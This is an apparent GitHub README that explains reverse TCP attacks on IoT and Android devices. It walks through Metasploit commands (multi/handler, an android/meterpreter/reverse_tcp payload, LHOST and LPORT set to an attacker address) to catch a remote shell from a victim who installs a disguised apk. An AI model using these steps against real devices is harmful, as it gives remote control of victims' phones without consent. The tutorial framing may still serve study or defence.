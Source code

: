 # Reverse-TCP-Vulnerability

IoT devices are vulnerable to reverse TCP attacks.

The reverse TCP attack is a type of attack where the victim machine initiates the connection to the attacker machine. 
The attacker machine has a listener port on which it receives the connection, which it can use to execute the commands.

![Reversetcp](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/37464f86-906d-42cc-91b5-67784b5512cc)


The attacker creates a payload written using a bash shell script. This shell script carries the process payload in different forms. 
For example, in the case of Android devices, the shell script payload can be carried in the form of an Android apk.

msfvenom can be used to create payloads.

![msfvenom](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/78456489-0775-4a95-91db-e4d886252dbf)

Open the Metasploit console in the kali Linux terminal by typing "msfconsole."
After the Metasploit console opens, then type the command "use multi/handler"
Next set the payload by typing "set payload android/meterpreter/reverse_tcp"

Metasploit console in the kali linux used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/966f41e8-3c55-4867-9ec4-d4228b9a255f)

Set LHOST <attackipaddress> this is the IP address used as a host.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/6a4a41b8-10c9-4395-9c07-96a8702dfa84)

Set LPORT <PORT attacker> this is the PORT used as a connection entry point between the attacker and the victim.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/a3702304-7407-4a7f-a1fd-1d2cc66c4554)

Exploit is a command to start an exploit between the attacker and the victim's device that has been previously
connected.

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/7b0409cb-699e-4668-bfe1-80b0cd08968d)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f6f46734-08a0-45bb-83e6-7263c70c78ed)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/f4dd9373-e027-4ba1-8dee-168951dd937e)

![image](https://github.com/amalrajpc/Reverse-TCP-Vulnerability/assets/102909507/59bc4f13-7c32-4867-b56b-ee5a7e69f7d4)







